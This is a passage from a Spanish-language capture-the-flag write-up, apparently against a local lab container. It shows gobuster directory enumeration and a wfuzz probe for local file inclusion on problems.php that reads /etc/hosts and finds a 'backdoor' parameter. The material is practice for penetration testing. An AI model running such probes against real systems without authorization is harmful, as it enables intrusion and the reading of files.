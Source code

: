 **Conclusiones:** Podemos sacar:
+ Directorio **uploads** interesante en el puerto 80.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vamos a utilizar **gobuster** para ver directorios interesantes

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,js,txt,png,jpg,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/problems.php         (Status: 200) [Size: 10671]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

Podemos ver el directorio **uploads** y el **problems.php** como cosas interesantes.

Ya que no podemos subir archivos de primeras, vamos a utilizar **wfuzz** para intentar ver si es vulnerable a un posible **LFI**:

```bash

wfuzz -u "http://172.17.0.2/problems.php?FUZZ=/etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=363
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/problems.php?FUZZ=/etc/hosts
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000007273:   200        7 L      16 W       174 Ch      "backdoor"

```